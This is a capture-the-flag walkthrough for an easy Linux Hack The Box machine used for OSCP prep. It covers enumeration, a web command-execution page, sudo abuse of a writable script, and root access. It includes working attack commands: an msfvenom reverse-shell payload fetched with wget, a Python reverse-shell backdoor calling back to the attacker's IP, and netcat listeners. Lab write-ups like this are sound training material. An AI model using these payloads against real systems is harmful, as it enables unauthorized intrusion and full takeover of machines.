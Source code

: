 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

### Enumeration
Start with a full Nmap scan to identify open ports:
```bash
sudo nmap -sV -sC -sS -oA scan/result $IP
```
The results show only port **80 (HTTP)** is open.

### [HTTP](HTTP) Enumeration
Visiting the website reveals a PHP-based web application. To discover hidden paths:
```bash
gobuster dir --url "http://10.10.10.68" -w /usr/share/dirb/wordlists/small.txt
```
The `/dev/` directory contains accessible files — one allows command execution via the web.

Using this functionality, grab the user flag:
```bash
cat /home/arrexel/user.txt
```

### Privilege Escalation
Run `sudo -l` to identify available sudo privileges:
```bash
sudo -l
```
It reveals that we can run scripts as **scriptmanager** without a password.

List all files owned by **scriptmanager**:
```bash
find / -user scriptmanager -type f 2>/dev/null
```
A Python script in `/scripts/` is modifiable. We'll exploit it.

### Reverse Shell via ELF Payload
Generate a reverse shell payload:
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=9001 -f elf > exploit.elf
```
Serve it via Python:
```bash
python3 -m http.server 80
```
Download and execute it from the target:
```bash
cd /tmp
wget http://$YOUR_IP/exploit.elf
chmod +x exploit.elf
./exploit.elf
```
Start a listener:
```bash
nc -lvnp 9001
```
Once inside, stabilize the shell:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=screen
```

### Alternative Python Backdoor
Create `test.py`:
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("$YOUR_IP",9002))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("sh")
```
Upload and execute it using the writable script.

Start another listener:
```bash
nc -lvnp 9002
```
This grants a shell as **root**.

### Root
Retrieve the root flag:
```bash
cat /root/root.txt
```
